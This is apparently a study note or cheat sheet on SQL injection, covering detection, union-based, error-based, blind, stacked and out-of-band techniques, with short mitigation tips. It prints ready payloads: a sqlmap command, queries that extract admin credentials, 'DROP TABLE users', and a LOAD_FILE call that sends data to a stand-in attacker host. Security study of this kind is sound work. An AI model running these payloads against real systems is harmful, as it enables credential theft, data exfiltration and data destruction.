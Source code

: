 # SqlI

## WriteUps

[Tricks](https://www.notion.so/Tricks-24078b2152854f11896181383e961288?pvs=21)

[Portswigger](https://www.notion.so/Portswigger-1e21202e068540619f1f1b0c3802be0a?pvs=21)

**@Mysql**

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

[Information\_schema](https://www.notion.so/Information\_schema-79ab4c7abc2a4892beb49e4c58fc31a8?pvs=21)

## How use Sqlmap

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5
```

## How SQL Injection Works

At its core, SQLi exploits vulnerabilities in the input validation framework of an application.

When user inputs are not properly sanitized, an attacker can inject malicious SQL queries that the application will execute without question.

This can result in unauthorized access to sensitive information, data manipulation, and even complete control over the database.

### 1. Detection of SQL Injection Vulnerabilities

#### **Reconnaissance** => backend Use + DBMS

Detecting SQL Injection vulnerabilities involves testing for unexpected or unhandled inputs.

Techniques such as submitting single quotes (<mark style="color:red;">`'`</mark>), double quotes (<mark style="color:red;">`"`</mark>), or other SQL control characters can reveal how an application processes input.

Observing error messages or application responses can provide clues about the underlying SQL query structure, indicating potential injection points.

### Entry Point Detection Examples:

* **Confirming with Logical Operations:** Using statements like <mark style="color:red;">**`1' OR '1'='1`**</mark> can help determine if an application is vulnerable by altering the query logic.
* **Timing Attacks:** Introducing deliberate delays (`SLEEP` functions) in queries can help identify blind SQL Injection vulnerabilities by observing response times.

### 2. Exploiting SQL Injection

Once a vulnerability is identified, exploiting it can take various forms depending on the database and the nature of the vulnerability:

> A. _**Union Based SQL Injection:**_

_**Identifying the Number of Columns:**_

Both <mark style="color:red;">**`ORDER BY`**</mark> and <mark style="color:red;">`GROUP BY`</mark> can be exploited to identify the number of columns in the query's result set. This is crucial for constructing a successful <mark style="color:red;">**`UNION SELECT`**</mark> attacks.

**Scenario:** You’ve identified a page that displays user details based on their ID from the URL parameter `?id=1`.

_**Vulnerable SQL Query:**_

```sql
SELECT name, age FROM users WHERE id = $_GET['id'];
```

_**Exploitation**_**:**

```sql
?id=1 UNION SELECT username, password FROM admin_users
```

In this example, the attacker appends a `UNION SELECT` query to retrieve usernames and passwords from an `admin_users` table, bypassing the intended query's limitations.

> B. Error-Based SQL Injection:

It involves generating database errors to extract information from the error messages.

**Scenario:** An application displays detailed error messages when SQL queries fail.

_**Vulnerable SQL Query:**_

```sql
SELECT title, content FROM articles WHERE id = $_GET['id'];
```

_**Exploitation:**_

```sql
?id=1 AND (SELECT COUNT(*) FROM admin_users) = CAST('' AS INTEGER)
```

This payload causes a type conversion error, potentially revealing information about the database structure or data through error messages.

> C. Blind SQL Injection:

No data is transferred from the web application to the attacker, so the attacker sends data to the database, true or false questions, and observes the response.

**Scenario:** The application does not display error messages or query results, but changes in response can be observed.

_**Boolean-Based Exploitation:**_

```sql
?id=1 AND (SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a'
```

This method involves iteratively guessing the password character by character, and observing the application’s behavior (e.g., response time or content changes) to confirm the guess.

_**Time-Based Exploitation:**_

```sql
?id=1 AND IF((SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a', sleep(5), 'false')
```

This payload uses a conditional time delay to confirm the password character, exploiting the database’s response time.

> D. Stacked Queries SQL Injection

**Key Detail:** The database and interface must support multiple queries executed in a single database call.

**Example:**

```
?id=1; DROP TABLE users --
```

Stacked queries allow an attacker to execute additional queries after the initial, legitimate query. This is highly dependent on the database and the programming language’s database driver or ORM the application uses.

> E. Out-of-Band (OOB) SQL Injection

**Key Detail:** The database server must be able to make DNS or HTTP requests to external servers.

**Example:**

```
?id=1; SELECT LOAD_FILE('\\\\\\\\attacker-controlled-server.com\\\\data')
```

OOB techniques rely on the database server’s ability to communicate with external systems, allowing data exfiltration via DNS queries or HTTP requests.

> F. Advanced SQL Injection Techniques

* **Authentication Bypass:** Attackers might inject SQL to bypass login algorithms, often targeting the query logic.**Mitigation:** Employ strong input validation and parameterized queries for authentication mechanisms.
* **Inferential SQL Injection:** Similar to Blind SQLi, this method involves making logical guesses about the data structure and content.**Mitigation:** Use WAFs and ensure applications do not reveal any hints in their responses.
* **Second Order SQL Injection:** Occurs when user input is stored and later executed as a SQL query.**Mitigation:** Always sanitize user inputs, even when they are not immediately used in database queries.

